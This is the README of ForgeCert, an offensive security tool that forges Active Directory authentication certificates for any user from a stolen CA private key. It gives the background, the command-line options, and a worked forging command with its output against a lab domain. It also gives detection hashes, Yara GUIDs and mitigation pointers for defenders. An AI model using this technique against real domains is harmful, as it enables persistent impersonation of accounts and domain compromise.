 # ForgeCert

ForgeCert uses the [BouncyCastle C# API](https://www.bouncycastle.org/csharp/index.html) and a stolen Certificate Authority (CA) certificate + private key to forge certificates for arbitrary users capable of authentication to Active Directory.

This attack is codified as `DPERSIST1` in our ["Certified Pre-Owned" whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf). This code base was released ~45 days after the whitepaper was published.

[@tifkin_](https://twitter.com/tifkin_) is the primary author of ForgeCert.

[@tifkin_](https://twitter.com/tifkin_) and [@harmj0y](https://twitter.com/harmj0y) are the primary authors of the associated Active Directory Certificate Service research ([blog](https://posts.specterops.io/certified-pre-owned-d95910965cd2) and [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)).


## Background

As described in the `Background` and `Forging Certificates with Stolen CA Certificates - DPERSIST1` sections of our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf), the private key for a Certificate Authority's CA certificate is protected on the CA server either via DPAPI or hardware (HSM/TPM). Additionally, the certificate (sans private key) is published to the **NTAuthCertificates** forest object, which defines CA certificates that enable authentication to AD. Put together, a CA whose certificate is present in **NTAuthCertificates** uses its private key to sign certificate signing requests (CSRs) from requesting clients. This graphic summarizes the process:

![](certificate_enrollment.png)

The security of the CA's private key is paramount. As mentioned, if the private key is not protected by a hardware solution like a TPM or a HSM, the key will be encrypted with the Data Protection API (DPAPI) and stored on disk on the CA server. If an attacker is able to compromise a CA server, they can extract the private key for any CA certificate not protected by hardware by using [@gentilkiwi](https://twitter.com/gentilkiwi/)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) or GhostPack's [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) project. `THEFT3` in the whitepaper describes this process for machine certificates.

Because the only key material used to sign issued certificates is the CA's private key, if an attacker steals such a key (for a certificate in **NTAuthCertificates**) they can forge certificates capable of domain authentication. These forged certificates can be for any principal in the domain (though the account needs to be "active" for authentication to be possible, so accounts like krbtgt will not work) and the certificates will be valid for as long as the CA certificate is valid (usually 5 years by default but can be set to be longer).

Also, as these certificates are not a product of the normal issuance process, the CA is not aware that they were created. Thus, the certificates [cannot be revoked](https://twitter.com/gentilkiwi/status/1154685386968506368).

**Note:** the private key for ANY CA certificate in **NTAuthCertificates** (root or subordinate CA) can be used to forge certificates capable of authentication in the forest. If the certificate/key is from a subordinate CA, a legitimate CRL for verification of the certificate chain must be supplied.

ForgeCert uses the [BouncyCastle's X509V3CertificateGenerator](https://people.eecs.berkeley.edu/~jonah/bc/org/bouncycastle/x509/X509V3CertificateGenerator.html) to perform the forgeries.


### Command Line Usage

```
C:\Temp>ForgeCert.exe
ForgeCert 1.0.0.0
Copyright c  2021

ERROR(S):
  Required option 'CaCertPath' is missing.
  Required option 'SubjectAltName' is missing.
  Required option 'NewCertPath' is missing.
  Required option 'NewCertPassword' is missing.

  --CaCertPath         Required. CA private key as a .pfx or .p12 file

  --CaCertPassword     Password to the CA private key file

  --Subject            (Default: CN=User) Subject name in the certificate

  --SubjectAltName     Required. UPN of the user to authenticate as

  --NewCertPath        Required. Path where to save the new .pfx certificate

  --NewCertPassword    Required. Password to the .pfx file

  --CRL                ldap path to a CRL for the forged certificate

  --help               Display this help screen.

  --version            Display version information.

```

## Usage

**Note**: for a complete walkthrough of stealing a CA private key and forging auth certs, see `DPERSIST1` in the [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf).

Context:

* The stolen CA's certificate is `ca.pfx`, encrypted with a password of `Password123!`
* The subject is arbitrary since we're specifying a subject alternative name for the certificate.
* The subject alternative name (i.e., the user we're forging a certificate for), is `localadmin@theshire.local`.
* The forged certificate will be saved as `localadmin.pfx`, encrypted with the password `NewPassword123!`

```
C:\Tools\ForgeCert>ForgeCert.exe --CaCertPath ca.pfx --CaCertPassword "Password123!" --Subject "CN=User" --SubjectAltName "localadmin@theshire.local" --NewCertPath localadmin.pfx --NewCertPassword "NewPassword123!"
CA Certificate Information:
  Subject:        CN=theshire-DC-CA, DC=theshire, DC=local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     1/4/2021 10:48:02 AM
  End Date:       1/4/2026 10:58:02 AM
  Thumbprint:     187D81530E1ADBB6B8B9B961EAADC1F597E6D6A2
  Serial:         14BFC25F2B6EEDA94404D5A5B0F33E21

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: localadmin@theshire.local
  Issuer:         CN=theshire-DC-CA, DC=theshire, DC=local
  Start Date:     7/26/2021 3:38:45 PM
  End Date:       7/26/2022 3:38:45 PM
  Thumbprint:     C5789A24E91A40819EFF7CFD77150595F8B9878D
  Serial:         3627A48F90F6869C3215FF05BC3B2E42

Done. Saved forged certificate to localadmin.pfx with the password 'NewPassword123!'
```

This forgery can be done on an attacker-controlled system, and the resulting certificate can be used with [Rubeus](https://github.com/GhostPack/Rubeus) to request a TGT (and/or retrieve the user's NTLM ;)


## Defensive Considerations

The [TypeRefHash](https://www.gdatasoftware.com/blog/2020/06/36164-introducing-the-typerefhash-trh) of the current ForgeCert codebase is b26b451ff2c947ae5904f962e56facbb45269995fbb813070386472f307cfcf0.

The TypeLib GUID of ForgeCert is **bd346689-8ee6-40b3-858b-4ed94f08d40a**. This is reflected in the Yara rules currently in this repo.

See `PREVENT1`, `DETECT3`, and `DETECT5` in our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) for prevention and detection guidance.

[Fabian Bader](https://twitter.com/fabian_bader) published a [great post on how to mitigate many uses of "Golden Certificates"](https://cloudbrothers.info/en/golden-certificate-ocsp/) through tweaks on  the Microsoft OCSP. Note thought that in the **Final Thoughts** section he mentions `This method is not bulletproof at all. Since the attacker is in charge of the certificate creation process, she could just change the serial number to a valid one.` This was implemented in [his PR](https://github.com/GhostPack/ForgeCert/commit/a202e03d7cee48413514c8659ad042a7f546d94b), though remember that by default the serial number will be randomized, meaning the OSCP prevention should work in many cases and is worth implementing in our opinion.

We believe there may opportunities to build Yara/other detection rules for types of forged certificates this project produces - if any defensive researchers find a good way to signature these files, please let us know and we will update the Yara rules/defensive guidance here.


## Reflections

There is a clear parallel between "Golden Tickets" (forged TGTs) and these "Golden Certificates" (forced AD CS certs). Both the krbtgt hash and CA private key are cryptographic material critical to the security of an Active Directory environment, and both can be used to forge authenticators for arbitrary users. However, while the krbtgt hash can be retrieved remotely over DCSync, a CA private key must (at least as far as we know) be recovered through code execution on the CA machine itself. While a krbtgt hash can be rotated _relatively_ easily, rotating a CA private key is significantly more difficult.

On the subject of public disclosure, we self-embargoed the release of our offensive tooling (ForgeCert as well as [Certify](https://github.com/GhostPack/Certify)) for ~45 days after we published our [whitepaper](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf) in order to give organizations a chance to get a grip on the issues surrounding Active Directory Certificate Services. However, we have found that organizations and vendors have historically often not fixed issues or built detections for "theoretical" attacks until someone proves something is possible with a proof of concept.

This is reflected in some people's reaction to the research of `this IS StUPId, oF COurse YoU Can FORge CERts WITH ThE ca PriVAtE KeY.` To which we state, yes, many things are possible, but `PoC||GTFO`
